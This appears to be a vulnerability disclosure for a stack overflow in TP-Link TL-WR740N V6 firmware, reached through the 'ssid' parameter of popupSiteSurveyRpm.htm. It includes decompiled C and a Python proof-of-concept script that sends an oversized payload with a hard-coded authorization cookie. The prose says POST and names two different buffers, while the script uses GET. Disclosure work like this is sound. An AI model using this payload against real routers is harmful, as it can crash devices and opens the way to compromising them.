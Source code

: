 Overview
Firmware download website: https://www.tp-link.com/no/support/download/tl-wr740n/#Firmware

Affected version
TL-WR740N V6

Vulnerability details
In the TL-WR740N V6 Firmware has a stack overflow vulnerability in the /userRpm/popupSiteSurveyRpm.htm url. The v21 variable receives the ssid parameter from a POST request and is later assigned to the v53 variable, which is fixed at 17 bytes. 

![image-20240828174236232](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240828174236232.png)image-20240828174236232

![image-20240828174451292](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240828174451292.png)image-20240828174451292

![image-20240828174610096](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240828174610096.png)image-20240828174610096

![image-20240828174647853](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240828174647853.png)image-20240828174647853

![image-20240828174718594](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240828174718594.png)image-20240828174718594

However, since the user can control the input of ssid, the statement stringModify(v8, 512, a3) can cause a buffer overflow. The user-provided ssid can exceed the capacity of the v8 array, triggering this security vulnerability.

int __fastcall stringModify(_BYTE *a1, int a2, int a3)
{
  bool v3; // dc
  char *v4; // $a2
  int v5; // $a3
  int v6; // $v0
  int v7; // $v1
​
  if ( !a1 )
    return -1;
  v3 = a3 == 0;
  v4 = (char *)(a3 + 1);
  if ( v3 )
    return -1;
  v5 = 0;
  while ( 1 )
  {
    v7 = *(v4 - 1);
    if ( !*(v4 - 1) || v5 >= a2 )
      break;
    if ( v7 == 47 )
      goto LABEL_18;
    if ( v7 >= 48 )
    {
      if ( v7 == 62 || v7 == 92 )
      {
LABEL_18:
        *a1 = 92;
LABEL_19:
        ++v5;
        ++a1;
      }
      else if ( v7 == 60 )
      {
        *a1 = 92;
        goto LABEL_19;
      }
LABEL_20:
      ++v5;
      *a1++ = *(v4 - 1);
      goto LABEL_21;
    }
    if ( v7 != 13 )
    {
      if ( v7 == 34 )
        goto LABEL_18;
      if ( v7 != 10 )
        goto LABEL_20;
    }
    v6 = *v4;
    if ( v6 != 13 && v6 != 10 )
    {
      *a1 = 60;
      a1[1] = 98;
      a1[2] = 114;
      a1[3] = 62;
      a1 += 4;
    }
    ++v5;
LABEL_21:
    ++v4;
  }
  *a1 = 0;
  return v5;
}
PoC
import requests
import urllib
session = requests.Session()
session.verify = False
def exp(path,cookie):
    headers = {
        "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_6) AppleWebKit/537.36(KHTML, like Gecko) Chrome/80.0.3987.149 Safari/537.36",
        "Cookie":"Authorization=Basic{cookie}".format(cookie=str(cookie))
        }
    payload="/%0A"*0x55 + "aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaac"
    params = {
    "mode":"1000",
    "curRegion":"1000",
    "chanWidth":"100",
    "channel":"1000",
    "ssid":urllib.request.unquote(payload)
    }
    url="http://192.168.0.1:80/{path}/userRpm/popupSiteSurveyRpm.htm".format(path=str(path))
    resp = session.get(url,params=params,headers=headers)
    print (resp.text)
exp("AMSHQZKAISQSDUOA","%20YWRtaW46MjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzM%3D")
![image-20240828173712920](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240828173712920.png)

